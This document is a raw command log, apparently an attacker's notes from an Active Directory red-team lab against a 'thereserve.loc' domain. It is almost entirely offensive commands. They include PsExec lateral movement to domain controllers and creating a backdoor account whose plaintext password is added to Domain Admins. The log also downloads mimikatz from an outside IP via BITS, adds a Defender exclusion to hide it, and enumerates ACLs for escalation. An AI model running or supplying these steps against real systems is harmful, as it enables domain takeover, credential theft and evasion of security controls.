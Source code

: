 
 Get-ADUser -filter * -server bank.thereserve.loc


Invoke-Command -ComputerName rootdc.thereserve.loc -ScriptBlock { whoami }

mstsc /v:10.200.118.100

./psexec.exe \\rootdc.thereserve.loc cmd.exe
./psexec.exe \\rootdc cmd.exe
./psexec.exe /?


wget https://download.sysinternals.com/files/PSTools.zip
unzip PSTools.zip
upload PsExec.exe

./psexec.exe \\rootdc.thereserve.loc cmd.exe
./psexec.exe \\rootdc.thereserve.loc powershell.exe

OK connected on rootDC



$username = "d1sturb3d"
$domain = "thereserve.loc"
$password = ConvertTo-SecureString -String "M3nta11y" -AsPlainText -Force

$newUser = New-ADUser -SamAccountName "$username" -UserPrincipalName "$username@$domain" -Name "$username" -GivenName "$username" -Surname "User" -DisplayName "$username" -Enabled $true -AccountPassword $password -ChangePasswordAtLogon $false
Add-ADGroupMember -Identity "Domain Admins" -Members $user -Server bank.thereserve.loc


```
net user d1sturb3d /add M3nta11y
net group "Domain Admins" d1sturb3d /add /domain
```



./psexec.exe \\rootdc.thereserve.loc net user d1sturb3d /add "M3ta11y@"
./psexec.exe \\rootdc.thereserve.loc gpresult /scope computer /v


cd C:\Users\Administrator\Documents\
start-bitstransfer -source http://10.50.115.95:9090/mimikatz.exe -destination mimikatz.exe


$exclusionPath = "C:\Users\Administrator\Documents\"
Add-MpPreference -ExclusionPath $exclusionPath


Get-ObjectAcl -DistinguishedName "dc=thereserve,dc=loc" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}




 ./psexec.exe \\bankdc.bank.thereserve.loc powershell.exe

 works !!!


hostname
$user = get-aduser -identity Administrator -Server corp.thereserve.loc
$user
Add-ADGroupMember -Identity "Domain Admins" -Members $user
hostname
